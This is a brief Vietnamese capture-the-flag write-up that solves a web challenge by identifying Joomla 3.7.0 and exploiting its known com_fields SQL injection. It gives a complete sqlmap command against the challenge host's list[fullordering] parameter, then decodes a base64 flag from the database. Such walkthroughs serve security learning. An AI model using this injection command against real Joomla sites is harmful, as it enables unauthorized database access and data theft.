



[WED](#web)

## Chôm la
WEB

# Solution:
tên chall này là chôm la và công nghệ web là Joomla

với dạng này thì đầu tiên mình sẽ tìm xem phiên bản Joomla hiện tại là bao nhiêu

thì mình thấy phiên bản hiện tại là 3.7.0 là một phiên bản thấp

Google search: Joomla 3.7.0 exploit 
thì mình tìm thấy một CVE có thể khai thác được
> https://www.exploit-db.com/exploits/42033

command: sqlmap -u "http://54.169.55.172:8000/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]

và mình nhận được flag trong database.
flag ở trong table flag

giải mã base64 là nhận được cờ

flag: PISCTF{PHP_J00mla_3_7_0_!_CVE}
